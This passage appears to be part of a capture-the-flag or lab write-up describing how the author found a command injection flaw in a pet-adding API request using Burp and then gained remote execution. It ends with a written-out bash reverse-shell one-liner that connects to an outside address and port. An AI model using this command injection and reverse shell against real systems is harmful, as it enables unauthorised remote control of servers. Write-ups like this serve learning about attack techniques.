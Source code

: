 ## Getting a Foothold:

Trying to add a new pet will simply add the pets name and species with extra information at the end. Looking at this request in burp shows a POST request to an api with the pet and species parameters we provided.

<p align="left";>
    <img width="" src="img/req-capture.png" alt="Burp Request Capture">
</p>

Poking around in repeater, I got lucky and found a simple command injection vulnerability with the POST request parameters.

<p align="left";>
    <img width="" src="img/RCE-sleep.png" alt="Command Injection Sleep">
</p>

Now that we have RCE we can spawn a reverse shell using:<br> `bash -c 'bash -i >& /dev/tcp/10.10.16.5/4444 0>&1'`.
